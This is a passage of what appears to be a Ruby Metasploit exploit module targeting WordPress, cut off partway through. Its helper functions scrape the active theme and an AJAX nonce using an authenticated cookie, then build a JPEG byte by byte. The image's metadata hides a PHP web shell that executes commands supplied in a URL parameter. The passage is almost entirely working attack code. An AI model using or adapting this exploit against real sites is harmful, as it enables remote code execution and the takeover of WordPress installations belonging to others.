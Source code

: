       def get_current_theme
        uri = normalize_uri(datastore['TARGETURI'])
        res = send_request_cgi!(
          'method'    => 'GET',
          'uri'       => uri
        )
        fail_with(Failure::NotFound, 'Failed to access Wordpress page to retrieve theme.') unless res && res.code == 200 && res.body && !res.body.empty?

        theme = res.body.scan(/\/wp-content\/themes\/(\w+)\//).flatten.first
        fail_with(Failure::NotFound, 'Failed to retrieve theme') unless theme

        theme
      end

      def get_ajaxnonce(cookie)
        uri = normalize_uri(datastore['TARGETURI'], 'wp-admin', 'admin-ajax.php')
        res = send_request_cgi(
          'method'    => 'POST',
          'uri'       => uri,
          'cookie' => cookie,
          'vars_post'  => {
            'action' => 'query-attachments',
            'post_id' => '0',
            'query[item]' => '43',
            'query[orderby]' => 'date',
            'query[order]' => 'DESC',
            'query[posts_per_page]' => '40',
            'query[paged]' => '1'
          }
        )
        fail_with(Failure::NotFound, 'Unable to reach page to retrieve the ajax nonce') unless res && res.code == 200 && res.body && !res.body.empty?
        a_nonce = res.body.scan(/"edit":"(\w+)"/).flatten.first
        fail_with(Failure::NotFound, 'Unable to retrieve the ajax nonce') unless a_nonce

        a_nonce
      end

      def upload_file(img_name, wp_nonce, cookie)
        img_data = %w[
          FF D8 FF E0 00 10 4A 46 49 46 00 01 01 01 00 60 00 60 00 00 FF ED 00 38 50 68 6F
          74 6F 73 68 6F 70 20 33 2E 30 00 38 42 49 4D 04 04 00 00 00 00 00 1C 1C 02 74 00
          10 3C 3F 3D 60 24 5F 47 45 54 5B 30 5D 60 3B 3F 3E 1C 02 00 00 02 00 04 FF FE 00
          3B 43 52 45 41 54 4F 52 3A 20 67 64 2D 6A 70 65 67 20 76 31 2E 30 20 28 75 73 69
          6E 67 20 49 4A 47 20 4A 50 45 47 20 76 38 30 29 2C 20 71 75 61 6C 69 74 79 20 3D
          20 38 32 0A FF DB 00 43 00 06 04 04 05 04 04 06 05 05 05 06 06 06 07 09 0E 09 09
          08 08 09 12 0D 0D 0A 0E 15 12 16 16 15 12 14 14 17 1A 21 1C 17 18 1F 19 14 14 1D
          27 1D 1F 22 23 25 25 25 16 1C 29 2C 28 24 2B 21 24 25 24 FF DB 00 43 01 06 06 06
          09 08 09 11 09 09 11 24 18 14 18 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24
          24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24
          24 24 24 24 24 24 24 FF C0 00 11 08 00 C0 01 06 03 01 22 00 02 11 01 03 11 01 FF
          C4 00 1F 00 00 01 05 01 01 01 01 01 01 00 00 00 00 00 00 00 00 01 02 03 04 05 06
          07 08 09 0A 0B FF C4 00 B5 10 00 02 01 03 03 02 04 03 05 05 04 04 00 00 01 7D 01
          02 03 00 04 11 05 12 21 31 41 06 13 51 61 07 22 71 14 32 81 91 A1 08 23 42 B1 C1
          15 52 D1 F0 24 33 62 72 82 09 0A 16 17 18 19 1A 25 26 27 28 29 2A 34 35 36 37 38
          39 3A 43 44 45 46 47 48 49 4A 53 54 55 56 57 58 59 5A 63 64 65 66 67 68 69 6A 73
          74 75 76 77 78 79 7A 83 84 85 86 87 88 89 8A 92 93 94 95 96 97 98 99 9A A2 A3 A4
          A5 A6 A7 A8 A9 AA B2 B3 B4 B5 B6 B7 B8 B9 BA C2 C3 C4 C5 C6 C7 C8 C9 CA D2 D3 D4
          D5 D6 D7 D8 D9 DA E1 E2 E3 E4 E5 E6 E7 E8 E9 EA F1 F2 F3 F4 F5 F6 F7 F8 F9 FA FF
          C4 00 1F 01 00 03 01 01 01 01 01 01 01 01 01 00 00 00 00 00 00 01 02 03 04 05 06
          07 08 09 0A 0B FF C4 00 B5 11 00 02 01 02 04 04 03 04 07 05 04 04 00 01 02 77 00
          01 02 03 11 04 05 21 31 06 12 41 51 07 61 71 13 22 32 81 08 14 42 91 A1 B1 C1 09
          23 33 52 F0 15 62 72 D1 0A 16 24 34 E1 25 F1 17 18 19 1A 26 27 28 29 2A 35 36 37
          38 39 3A 43 44 45 46 47 48 49 4A 53 54 55 56 57 58 59 5A 63 64 65 66 67 68 69 6A
          73 74 75 76 77 78 79 7A 82 83 84 85 86 87 88 89 8A 92 93 94 95 96 97 98 99 9A A2